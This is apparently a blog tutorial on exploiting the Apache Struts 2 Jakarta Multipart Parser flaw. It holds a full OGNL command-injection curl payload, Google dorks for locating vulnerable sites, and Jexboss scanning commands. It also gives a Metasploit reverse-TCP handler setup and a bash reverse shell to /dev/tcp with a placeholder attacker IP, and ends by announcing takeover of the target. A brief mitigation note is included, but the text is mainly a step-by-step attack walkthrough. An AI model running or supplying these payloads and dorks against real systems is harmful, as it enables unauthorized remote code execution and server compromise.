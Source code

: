## Introduction

In versions of **Apache Struts 2** prior to 2.3.32 and 2.5.10.1, there is a flaw in the **Jakarta Multipart Parser**. This flaw pertains to improper exception handling and generation of error messages during attempts to upload files. As a result, remote attackers can exploit this vulnerability to run arbitrary commands by manipulating the "`Content-Type`", "`Content-Disposition`", or "`Content-Length`" HTTP headers.

* * *

## Anatomy Of The Attack

### Apache Struts Vulnerability

Struts are vulnerable to remote command injection attacks through incorrectly parsing an attacker’s invalid "Content-Type HTTP header". The Struts vulnerability allows these commands to be executed under the privileges of the Web server.

If the "Content-Type" value isn’t valid, that is, it does not match an expected valid type, an exception is thrown that is then used to display an error message to a user. In this case, we can set the "Content-Type" to an OGNL expression such as:

```bash
ContentType: ${(#_='multipart/formdata')}...
```

#### Why Does the Vuln Occur?

The vulnerability occurs because the Content-Type is not escaped after the error, and is then used by **LocalizedTextUtil.findText()** function to build the error message. This function will interpret the supplied message, and anything within **${…}** will be treated as an Object Graph Navigation Library (OGNL) expression and evaluated as such. The attacker can leverage these conditions to execute OGNL expressions that in turn execute system commands.

OGNL is also an expressive and extensive language in and of itself. It’s a very powerful and reliable tool for the attacker. Many core JAVA functions can be exposed, for example, **java.core.ProcessBuilder()** allows an external program to be run on the system.

Exploitation is also further facilitated by the ability to receive information back from the server on the status and output of the commands that are executed by the webserver. No additional communication channel is needed, which aids in minimizing detection and bypassing existing firewall rules.

###### HTTP REQUEST WITH CURL CONTAINING CONTENT-TYPE HEADER WITH OGNL EXPRESSION

```bash
curl https://example.com:8080/welcome.action -H "Content-Type:
%{(#_="multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)
.(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container'])
.(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))
.(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear())
.(#context.setMemberAccess(#dm)))).(#eps=#container.toString()).(#cmds=({'/bin/echo', #eps}))
.(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start())
.(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))
.(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush()))}
com.opensymphony.xwork2.inject.ContainerImpl@d0d2b00
```

The **curl** command shown above demonstrates whether the server is vulnerable or not by sending an http request with an embedded OGNL expression in the Content-Type header. The OGNL expression sets default access rights to the members of the **OgnlContext JAVA object**, which represents the execution context of the expression.

#### How Can This Vulnerability Be Addressed?

The risks related to this type of attack can be lessened by utilizing web application firewalls like **mod\_security**. This is achievable if rules are configured for valid content types or if OGNL expressions are added to a blacklist. However, the most optimal solution is undeniably updating **Struts2**.

* * *

### Google Dork

There is no doubt that there are thousand and one ways to find vulnerable targets for this type of attack. To cut short, we are going to use a non-exhaustive list of Google Dork to demonstrate how it’s easy for a blackhat to build a list of potentially vulnerable websites.

```bash
intitle:"Struts problem report" intext:"Struts has detected an Unhandled"
intitle:"Struts Problem Report" intext:"development mode is enabled."
filetype:action
filetype:do
filetype:java
filetype:out
filetype:bat
filetype:seam
filetype:sh
filetype:bson
filetype:el
filetype:pm
inurl:login.action
inurl:login.do
inurl:login.java
inurl:index.action
inurl:index.do
inurl:index.java
```

* * *

### Vulnerability Analysis

To detect if a host is vulnerable to the **Struts2** exploit, we can use **Jexboss**, this tool made in Python is definitively doing a great job and can help you to save precious time. The tool and exploits were developed and tested for JBoss Application Server versions v3, v4, v5, and v6. JSF, Seam Framework, RMI over HTTP, Jenkins CLI RCE (CVE-2015-5317), Remote JMX (CVE-2016-3427, CVE-2016-8735). For more information, you can visit the [Github](https://github.com/joaomatosf/jexboss) page of the author.

#### Requirements

- Python >= 2.7.x
- urllib3
- ipaddress

#### Install Jexboss on Ubuntu/Debian

```bash
git clone "https://github.com/joaomatosf/jexboss.git"
cd jexboss
pip install -r requires.txt
python jexboss.py -h
```

Or

```bash
wget "https://github.com/joaomatosf/jexboss/archive/master.zip"
unzip master.zip
cd jexboss-master
pip install -r requires.txt
python jexboss.py -h
```

#### Install Jexboss on Windows

If you are using Windows, you can use the Git Bash to run the JexBoss.

- Download and install Python
- Download and install Git for Windows
- After installing, run the Git for Windows and type the following commands

```bash
PATH=$PATH:C:\Python27\
PATH=$PATH:C:\Python27\Scripts
git clone https://github.com/joaomatosf/jexboss.git
cd jexboss
pip install -r requires.txt
python jexboss.py -h
```

* * *

### How To Use Jexboss

#### Scan single host using Jexboss

```bash
sudo python jexboss.py -host http://target_host:8080
```

#### Scan multiple hosts using Jexboss

```bash
sudo python jexboss.py -mode -file-scan -file /path/file/urls.txt -out /path/output/results.log --struts2
```

#### Create MSF Session

To open a session from our targeted website, we will need to create an exploit multi-handler with **Metasploit**. This can be done very quickly using the below commands.

```bash
msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set "YOUR-IP-ADDRESS"
msf exploit(multi/handler) > set "YOUR-LOCAL-PORT"
msf exploit(multi/handler) > set PAYLOAD linux/x86/shell/reverse_tcp
msf exploit(multi/handler) > show options
```

On the above example, we are using a Linux X86 Shell Reverse TCP payload, of course the type of payload shall be different if we are targeting a Windows machine.

* * *

### Exploit The Target

We are now going to send our exploit to create a reverse shell using **Jexboss** and forward the traffic to the MSF session using TCP protocol.

#### Jexboss Commands

```bash
sudo python jexboss.py -host http://example.com/login.action --struts2
```

If **Jexboss** can inject his payload, you will need to enter the below command to establish a connection with **Metasploit**.

#### Jexboss Console

Replace `MACHINE-IP-ADDRESS` and `MACHINE-PORT` with your own parameters


```bash
Shell> /bin/bash -i > /dev/tcp/MACHINE-IP-ADDRESS/MACHINE-PORT 0>&1 2>&1
```

#### Metasploit Console

```bash
msf exploit(multi/handler) > exploit
```

You are done! If the targeted website and/or server is vulnerable to **Struts2** exploit, a session will be created in your **Metasploit** allowing you to take over the targeted machine. For more information about this tutorial and to see a live demonstration of this type of attack, I encourage you to watch the video below.

* * *

## Conclusion

The security flaw in Apache Struts 2 versions 2.3.x before 2.3.32 and 2.5.x before 2.5.10.1 poses a significant risk. Attackers can exploit incorrect exception handling and error-message generation during file-upload attempts to execute arbitrary code remotely. Organizations should promptly update their systems to mitigate this vulnerability and protect against potential attacks.

Stay vigilant and prioritize security measures! If you have any further questions or need additional information, feel free to ask!
